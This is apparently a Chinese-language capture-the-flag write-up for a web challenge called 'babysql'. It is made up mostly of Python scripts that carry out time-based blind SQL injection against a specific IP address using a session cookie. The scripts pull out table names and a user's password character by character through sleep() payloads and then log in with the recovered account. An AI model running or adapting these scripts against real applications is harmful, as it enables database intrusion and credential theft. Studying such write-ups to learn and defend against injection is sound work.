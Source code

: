 ```python
        r = requests.get(url, cookies=cookie)
        if time.time() - start_time > 2:
            flag += chr(x)
            print(flag)
            break

```
这周的应该是时间盲注了吧，试了下union貌似不行。。。
```python
#爆表名
import requests
import time

flag = ''
maxlength = 10
host = 'http://139.199.182.61:19999/index.php?method=delete&delete_id=28'
cookie = {
"PHPSESSID":"fsgq6msbpn8ue3s622bvuhvrfj"
}
for i in range(1, maxlength):
    for x in range(32,127):
        payload = " and (if(ascii(substring((Select table_name from information_schema.tables where table_schema='babysql'limit 1,1),{0},1))={1},sleep(5),null))%23"
        url = (host + payload.format(i,x))
        print(url)
        start_time=time.time()
        r = requests.get(url, cookies=cookie)
        if time.time() - start_time > 4:
            flag += chr(x)
            print(flag)
            break
```
爆列名也差不多，这就不放了，最后爆用户名和密码。
```python
#爆字段
import requests
import time

flag = ''
maxlength = 29
host = 'http://139.199.182.61:19999/index.php?method=delete&delete_id=28'
cookie = {
"PHPSESSID":"fsgq6msbpn8ue3s622bvuhvrfj"
}
for i in range(1, maxlength):
    for x in range(32,127):
        payload = " and (if(ascii(substr((Select password from user limit 0,1),{0},1)) ={1},sleep(5),null))"
        url = (host + payload.format(i,x))
        print(url)
        start_time=time.time()
        r = requests.get(url, cookies=cookie)
        if time.time() - start_time > 4:
            flag += chr(x)
            print(flag)
            break
```
得到用户名cosmos和密码
![](img/week3-web-3.png)  
最后登陆Cosmos的账号获得flag